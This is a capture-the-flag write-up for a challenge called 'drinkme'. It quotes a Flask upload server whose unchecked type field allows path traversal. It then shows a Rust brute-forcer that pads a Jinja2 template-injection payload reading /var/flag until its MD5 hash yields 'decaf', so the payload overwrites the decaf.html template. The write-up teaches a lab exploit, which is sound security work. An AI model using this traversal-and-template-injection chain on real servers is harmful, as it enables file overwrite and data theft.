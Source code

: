 ```text
Are you thirsty? Why don't you try some of our drinks at our new store, drinkme! Leave a message on the wall too when you're done.
NOTE: Flag is at /var/flag
NOTE: This challenge uses per-team instances. Please test locally and don't launch one until you have a working exploit.
NOTE: The drinkme instancer takes a bit of time (< 1 min) to start the container, please be patient.
https://drinkme.be.ax
```
We get all source again and I'm just including the server file for brevity. 
# app.py
```python
#!/usr/bin/env python3
from flask import Flask, flash, request, redirect, url_for, render_template, send_from_directory
import os
import hashlib
app = Flask(__name__)
app.secret_key = b'537472656c6c6963206973206d79206661766f72697465206d656d626572206f6620436f52' # Don't bother trying to exploit - this is just to get flash() to work because I'm too lazy to make proper error messages
# stuff for per-team instances, can probably ignore this line
if os.getenv('PORT') is not None:
    app.config['SERVER_NAME'] = f"{os.getenv('PORT')}.drinkme.be.ax"
@app.route('/')
@app.route('/index')
def index():
    return render_template('index.html')
@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        flash('You, uh, kinda need a file.')
        return redirect(url_for('index'))
    if 'type' not in request.form:
        flash('Please specify a filetype.')
        return redirect(url_for('index'))
    file = request.files['file']
    UPLOAD_FOLDER = './wall/' + request.form['type']
    if file.filename == '':
        flash('You uh, kinda need a file.')
        return redirect(url_for('index'))
    if file:
        filename = hashlib.md5(file.read()).hexdigest()[:5] + '.' + '.'.join(file.filename.split('.')[1:])
        file.seek(0)
        try:
            file.save(os.path.join(UPLOAD_FOLDER, filename))
            flash('File successfully uploaded!')
            return redirect(url_for('index'))
        except:
            flash('Error while uploading file.')
            return redirect(url_for('index'))
    
@app.route('/wall')
def wall():
    return render_template('guest_wall.html', images=os.listdir("wall/image"), text=os.listdir("wall/text"), videos=os.listdir("wall/video")) # Is this bad coding? Yes. Do I care? No.
@app.route('/wall/<path:path>') # I don't even use flask so this is probably implemented completely wrong pls dont flame me
def return_file(path):
    return send_from_directory("wall", path)
    
@app.route('/americano')
def beef():
    return render_template('americano.html')
@app.route('/cappuccino')
def pork():
    return render_template('cappuccino.html')
@app.route('/decaf')
def mutton():
    return render_template('decaf.html')
if __name__ == '__main__':
    app.run(host = '0.0.0.0', port = 5000, debug=True)
```
So the first thing I noticed was that it was concatenating unchecked input for the upload path and that's gross. By forging a type to include .., we can make it upload our file anywhere we want. I immediately went to "overwrite server files" and was disappointed because we don't control the filename; It's derived from the first five characters of the file md5 hash + "." + file extension. I was looking at the templates: americano.html, cappuccino.html, and *decaf.html* when it clicked. "decaf" is valid hexadecimal characters which means if we upload an html file that hashes to "decaf\*" it will upload decaf.html. I did the only reasonable thing -- make an SSTI payload to read /var/flag and then brute forced for padding which hashed to that. 
```rust
use rand::{thread_rng, Rng};
use rand::distributions::Alphanumeric;
fn main() {
    let base = "{{  self._TemplateReference__context.cycler.__init__.__globals__.__builtins__.open('/var/flag','r').read() }}";
    let (found, _) = std::iter::repeat(()).map(|_| {
        let mut attempt = base.to_string();
        for i in thread_rng().sample_iter(&Alphanumeric)
            .take(100) {
            attempt.push(i as char);
        }
        let digest = md5::compute(&attempt);
        (attempt, format!("{:x}", digest)[..5].to_string())
    }).find(|(_,x)| x == "decaf").unwrap();
    println!("{}", found);
}
```
I didn't save the flag so I'll grab it from some other writeup and update this later. 